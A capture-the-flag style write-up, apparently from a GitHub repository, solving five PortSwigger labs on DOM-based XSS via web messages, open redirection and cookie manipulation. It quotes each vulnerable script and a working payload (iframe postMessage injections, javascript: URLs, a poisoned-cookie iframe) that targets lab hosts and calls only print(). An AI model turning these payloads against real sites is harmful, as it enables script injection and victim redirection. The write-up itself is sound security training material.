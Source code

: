 # DOM-based vulnerabilities

Get details at [here](https://portswigger.net/web-security/dom-based)

---

[Lab 1](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)

Description of this lab: construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function triggered by web messaging

Check the source code, we can see this website has `addEventListener` function for listening to event

```js
    <script>
        window.addEventListener('message', function(e) {
            document.getElementById('ads').innerHTML = e.data;
        })
    </script>             
```             

Using this script for exploit server, to send message including `iframe` to website, and it will be executed when website load error, and solved the lab 

`<iframe src="https://0ace002803d991c3c25ff81400bb00af.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

[Lab 2](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)

Description of this lab: demonstrates a DOM-based redirection vulnerability that is triggered by web messaging

Check the source code, we can see this website has `addEventListener`, `location.href` function for listening to event, 

```js
   <script>
        window.addEventListener('message', function(e) {
            var url = e.data;
            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                location.href = url;
            }
        }, false);
    </script>              
```
Using this script for exploit server, and solved the lab.

`<iframe src="https://0a52008a03c68061c212a75100ec00e5.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`


[Lab 3](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)

Description of this lab: construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function

Check the code, and we have this script for listening to event

```js
    <script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
                    </script>
```

Using this script for body exploit server, click to store and deliver to victim button, then solved the lab.

```html
    <iframe src=https://0a0a00c40438df56c0ea1539003800f9.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

[Lab 4](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)

Description of this lab: exploit this vulnerability and redirect the victim to the exploit server

In this website, there is back button for redirect to home page using function `location.href`, and we can see the code

```html
    <a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

Using this URL to exploit: `https://0a52008a03c68061c212a75100ec00e5.web-security-academy.net/post?postId=1&url=https://0a9600e8031e8046c2bda67801c40046.exploit-server.net/`

[Lab 5](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)

Description of this lab: exploit server to direct the victim to the correct pages with injecting a cookie that will cause XSS on a different page and call the print() function

Go to any post and check the code, we can see it has this script for remember last viewed product:

```js
    <script>
        document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
    </script>
```
Using this script for exploit server, `onload` event handler makes victim is redirected to the main page, unaware that this manipulation ever took place. While the victim's browser has the poisoned cookie saved, loading the main page will cause the payload to execute and call the print() function

```html
    <iframe src="https://0aa9003a03f3fdb3c0fc0d8400090025.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0aa9003a03f3fdb3c0fc0d8400090025.web-security-academy.net';window.x=1;">
```
